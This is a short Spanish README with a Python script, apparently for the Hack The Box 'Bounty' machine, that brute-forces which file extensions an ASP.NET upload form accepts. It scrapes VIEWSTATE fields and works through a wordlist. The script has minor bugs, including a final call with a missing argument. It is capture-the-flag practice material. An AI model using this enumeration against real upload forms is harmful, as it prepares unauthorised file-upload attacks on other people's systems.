 # HTB Bounty - Numeracion de extesniones.

Este exploit se utiliza para númerar las extensiones que interpreta un sistema. El programa este ha sido crado para
la máquina Bounty de Hack The Box. Utilizando un diccionario de extensiones las comprueba todas reportandonos cuales
podemos utilzar.

´´´
#!/usr/bin/python3

from pwn import *
import signal, time, pdb, sys, requests

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

# Variabls globales
transfer_url = "http://10.10.10.93/transfer.aspx"
burp = {'http': 'http://127.0.0.1.:8080'}

def uploadFile(extension):

    s = requests.session()
    r = s.get(transfer_url)

    viewState = re.findall(r'id="__VIEWSTATE" value="(.*?)"', r.text)[0]
    eventValidation = re.findall(r'id="__EVENTVALIDATION" value="(.*?)"', r.text)[0]

    post_data = {
         '__VIEWSTATE': viewState,
         '__EVENTVALIDATION': eventValidation,
         'btnUpload': 'Upload'
    }

    fileUploaded = {'FileUpload1': ('Prueba%s' % extension, 'Esto es una prueba')}

    r = s.post(transfer_url, data=post_data, files=fileUploaded)

    if "Invalid File. Please try again" not in r.text:
        log.info("La extensión %s es valida" % extension)

if __name__ == '__main__':

    f = open("/usr/share/seclists/Discovery/Web-Content/raft-medium-extensions.txt","rb")

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    for extension in f.readlines():
        extension = extension.decode().strip()
        p1.status("Probando con la extensión %s" % extension)
        uploadFile(extension)

    uploadFile()

```
